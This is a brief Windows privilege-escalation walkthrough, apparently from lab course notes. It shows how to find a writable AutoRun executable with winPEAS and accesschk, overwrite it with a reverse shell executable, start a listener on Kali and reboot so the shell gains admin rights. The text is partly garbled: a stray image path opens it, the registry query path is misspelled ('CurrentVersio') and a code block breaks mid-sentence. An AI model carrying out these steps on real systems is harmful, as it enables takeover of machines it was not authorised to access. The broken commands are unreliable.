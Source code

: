 1.
Use winPEAS to check for writable AutoRun executables:
```
.\winPEASany.exe quiet applicationsinfo
```



2.
Alternatively, we could manually enumerate the AutoRun executables:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersio\Run
and then use 
```

accesschk.exe to verify the permissions on each one:


```
 .\accesschk.exe /accepteula -wvu "C:\Program
Files\Autorun Program\program.exe"
```

3.
The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by
Everyone. 

Create a backup of the original:

copy "C:\Program Files\Autorun Program\program.exe" C:\Temp

4.
Copy our reverse shell executable to overwrite the AutoRun executable:

copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun
Program\program.exe"


5.
Start a listener on Kali, and then restart the Windows VM to trigger the exploit. 

>Note that on
Windows 10, the exploit appears to run with the privileges of the last logged on user, so log
out of the “user” account and log in as the “admin” account first.